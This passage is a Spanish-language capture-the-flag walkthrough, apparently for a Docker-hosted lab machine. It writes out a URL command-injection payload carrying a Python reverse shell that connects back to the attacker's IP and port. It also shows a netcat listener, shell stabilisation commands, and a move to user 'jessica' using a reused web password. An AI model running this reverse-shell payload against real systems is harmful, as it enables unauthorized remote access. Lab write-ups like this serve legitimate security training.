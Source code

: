 Vemos que funciona, por lo que vamos a crearnos una `reverse shell` mediante la `URL` de la siguiente forma:

```
URL = http://<IP>/?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'&page=<CONTENT_GENERATE>
```

Antes de ejecutarlos estaremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y si ejecutamos lo de la `URL` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 44696
$ whoami
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user jessica

Si probamos a utilizar la misma contraseña que en la pagina veremos que funciona:

```shell
su jesssica
```

Metemos como contraseña `j.castro` y veremos que estamos dentro.

## Privilege Escalation
